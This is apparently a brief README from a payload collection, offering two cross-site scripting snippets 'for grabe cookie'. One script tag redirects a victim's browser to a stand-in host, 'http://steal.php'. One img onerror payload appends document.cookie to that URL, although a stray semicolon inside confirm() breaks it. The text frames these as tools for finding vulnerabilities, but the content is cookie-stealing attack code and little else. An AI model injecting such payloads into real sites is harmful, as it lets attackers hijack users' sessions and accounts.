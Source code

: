 # payload

### Payload is helping for identify Vulneraability into System/Application.

* XSS Script for grabe cookie:
```javascript
<script>document.location="http://steal.php"</script>
```

```javascript
<img src=a onerror=confirm(document.location="http://steal.php?cookie=" + document.cookie;)>
```
